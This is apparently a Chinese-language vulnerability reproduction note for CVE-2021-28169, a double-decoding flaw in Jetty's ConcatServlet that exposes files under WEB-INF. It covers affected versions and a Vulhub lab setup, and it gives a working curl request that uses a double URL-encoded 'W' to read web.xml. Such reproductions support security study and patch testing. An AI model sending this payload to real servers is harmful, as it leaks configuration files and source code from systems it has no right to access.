



# CVE-2021-28169

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Jetty 通用 Servlets 组件 ConcatServlet 信息泄露漏洞


## 0x01 漏洞描述

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境，而Jetty Servlets是Jetty提供给开发者的一些通用组件。

在9.4.40, 10.0.2, 11.0.2版本前，Jetty Servlets中的`ConcatServlet`、`WelcomeFilter`类存在多重解码问题，如果开发者主动使用了这两个类，攻击者可以利用其访问WEB-INF目录下的敏感文件，造成配置文件及代码泄露。

## 0x02 影响版本

```
9.4.40, 10.0.2, 11.0.2版本前
```

## 0x03 环境搭建

Vulhub执行如下命令启动一个Jetty 9.4.40服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到一个example页面。该页面使用到了`ConcatServlet`来优化静态文件的加载：

```
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
```



## 0x04 漏洞复现

正常通过`/static?/WEB-INF/web.xml`无法访问到敏感文件web.xml：



对字母`W`进行双URL编码，即可绕过限制访问web.xml：

```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```

